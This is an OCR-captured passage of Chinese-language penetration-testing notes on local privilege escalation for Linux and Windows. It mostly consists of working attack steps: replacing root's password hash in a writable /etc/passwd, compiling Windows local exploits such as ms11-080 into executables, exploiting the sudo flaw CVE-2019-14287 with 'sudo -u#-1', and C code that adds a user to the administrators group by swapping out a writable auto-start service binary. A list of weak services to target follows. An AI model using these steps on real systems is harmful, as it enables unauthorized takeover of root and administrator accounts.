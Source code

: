 若/etc/passwd文件可修改:
openssl passwd -1   输入你想改成的密码,用得到的hash去替换root行的x
python -c 'import pty; pty.spawn("/bin/bash")'
然后su root,输入上一步改的密码


### windows

网页:   https://www.fuzzysecurity.com/tutorials/16.html     https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
找本地提权的exp,例: ms11-080
如果目标机上没有安装python,使用pyinstaller把它编译成二进制文件(在windows环境下使用):
python pyinstaller.py --onefile ms11-080.py
生成的文件会在pyinstaller/ms11-080/dist 目录下
pyinstall可直接用pip安装:       pip install PyInstaller
网址:       https://pypi.org/project/PyInstaller/       http://www.pyinstaller.org/


CVE-2019-14287:
查找:
cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"
利用:
sudo -u#-1 id -u
或者:
sudo -u#4294967295 id -u


添加开机启动项:
```useradd.c
#include <stdlib.h>
int main ()
{
    int i;
    i=system ("net localgroup adminstrators lowpriv /add");
    return 0;
}
```
i586-mingw32msvc-gcc useradd.c -o useradd.exe
将useradd.exe传到目标机上,用useradd.exe去替换everyone完成控制且以系统权限开机自启的exe,即可将用户lowpriv提升为管理员权限
查看一个程序的各个用户权限: icacls xxx.exe


### weak services

|windows                                                        |linux
|---------------------------------------------------------------|-------------------------
|proshow    c:\Program Files\ProShow Producer\scsiAccess.exe    |/etc/cron.daily/chkrootkit
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
|                                                               |
